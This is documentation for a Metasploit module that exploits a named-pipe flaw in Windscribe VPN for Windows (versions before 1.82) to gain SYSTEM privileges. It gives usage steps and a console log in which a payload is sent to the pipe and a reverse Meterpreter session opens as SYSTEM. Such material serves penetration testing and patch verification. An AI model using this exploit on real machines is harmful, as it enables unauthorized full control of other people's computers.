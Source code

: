 ## Description

  The Windscribe VPN client application for Windows makes use of a
  Windows service `WindscribeService.exe` which exposes a named pipe
  `\\.\pipe\WindscribeService` allowing execution of programs with
  elevated privileges.

  Windscribe versions prior to 1.82 do not validate user-supplied
  program names, allowing execution of arbitrary commands as SYSTEM.


## Vulnerable Application

  This module has been tested successfully on [Windscribe](https://windscribe.com/)
  version 1.80 and 1.81 on Windows 7 SP1 (x64).

  Download:

  * https://assets.windscribe.com/desktop/win/Windscribe_1.80.exe
  * https://assets.windscribe.com/desktop/win/Windscribe_1.81.exe


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/windscribe_windscribeservice_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf > use exploit/windows/local/windscribe_windscribeservice_priv_esc 
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set session 1
  session => 1
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set verbose true
  verbose => true
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > check
  [*] The service is running, but could not be validated.
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload (283 bytes) to C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe ...
  [*] Sending C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe to \\.\pipe\WindscribeService ...
  [+] Opened \\.\pipe\WindscribeService! Proceeding ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49365) at 2020-01-31 19:14:31 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : TEST
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```

